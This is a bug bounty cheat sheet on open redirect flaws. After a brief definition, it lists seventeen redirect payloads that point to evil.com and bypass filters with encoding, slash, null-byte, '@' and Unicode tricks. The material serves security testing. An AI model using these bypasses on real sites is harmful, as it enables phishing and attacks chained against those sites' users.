
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Open%20Redirect.md#introduction)

Open redirection vulnerabilities arise when an application incorporates user-controllable data into the target of a redirection in an unsafe way. An attacker can construct a URL within the application that causes a redirection to an arbitrary external domain

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Open%20Redirect.md#where-to-find)

- Sometimes it can be found in login / register / logout pages
- Checking the javascript source code

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Open%20Redirect.md#how-to-exploit)

1. Try change the domain

```
/?redir=evil.com
```

2. Using a whitelisted domain or keyword

```
/?redir=target.com.evil.com
```

3. Using `//` to bypass `http` blacklisted keyword

```
/?redir=//evil.com
```

4. Using `https:` to bypass `//` blacklisted keyword

```
/?redir=https:evil.com
```

5. Using `\\` to bypass `//` blacklisted keyword

```
/?redir=\\evil.com
```

6. Using `\/\/` to bypass `//` blacklisted keyword

```
/?redir=\/\/evil.com/
/?redir=/\/evil.com/
```

7. Using `%E3%80%82` to bypass `.` blacklisted character

```
/?redir=evil。com
/?redir=evil%E3%80%82com
```

8. Using null byte `%00` to bypass blacklist filter

```
/?redir=//evil%00.com
```

9. Using parameter pollution

```
/?next=target.com&next=evil.com
```

10. Using `@` or `%40` character, browser will redirect to anything after the `@`

```
/?redir=target.com@evil.com
/?redir=target.com%40evil.com
```

11. Creating folder as their domain

```
http://www.yoursite.com/http://www.theirsite.com/
http://www.yoursite.com/folder/www.folder.com
```

12. Using `?` characted, browser will translate it to `/?`

```
/?redir=target.com?evil.com
```

13. Bypass the filter if it only checks for domain name using `%23`

```
/?redir=target.com%23evil.com
```

14. Host/Split Unicode Normalization

```
https://evil.c℀.example.com
```

15. Using parsing

```
http://ⓔⓥⓘⓛ.ⓒⓞⓜ
```

16. Using `°` symbol to bypass

```
/?redir=target.com/°evil.com
```

17. Bypass the filter if it only allows yoou to control the path using a nullbyte `%0d` or `%0a`

```
/?redir=/%0d/evil.com
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Open%20Redirect.md#references)

- [Hackerone #1250758](https://hackerone.com/reports/1250758)
- [@ahmadbrainworks](https://medium.com/@ahmadbrainworks/bug-bounty-how-i-earned-550-in-less-than-5-minutes-open-redirect-chained-with-rxss-8957979070e5)

